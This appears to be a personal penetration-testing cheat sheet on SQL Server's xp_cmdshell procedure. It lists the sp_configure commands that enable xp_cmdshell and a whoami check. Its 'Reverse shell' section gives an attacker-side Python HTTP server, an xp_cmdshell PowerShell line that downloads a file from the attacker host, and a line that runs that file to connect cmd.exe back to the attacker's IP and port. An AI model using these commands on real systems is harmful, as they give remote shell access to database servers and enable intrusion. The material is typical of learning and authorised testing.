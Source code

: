 ```yaml
---
id: xp_cmdshell
aliases: []
tags:
  - Networking/Services/SQL/xp_cdmshell
links: "[[SQL]]"
---
```


# xp_cmdshell

[xp_cdmshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17)
allows the execution of Windows command shell commands directly from the SQL
Server environment.

## Activation

**xp_cmdshell** is disabled by default

```sh
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Usage

Check if xp_cmdshell is enabled

```sh
EXEC xp_cmdshell 'whoami';
```

## Reverse shell

Simple [Python HTTP server](https://docs.python.org/3/library/http.server.html)
to serve a file from the attacker machine

```sh
sudo python3 -m http.server 80
```

Acquire the file served by the attacker from the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; wget http:{ip_address}/{file_name} -outfile {file_name}"
```

Execute the acquired file on the target

```sh
xp_cmdshell "powershell -c cd C:\Users\{user}\Downloads; .\{file_name} -e cmd.exe {attacker_ip} {attacker_port}"
```
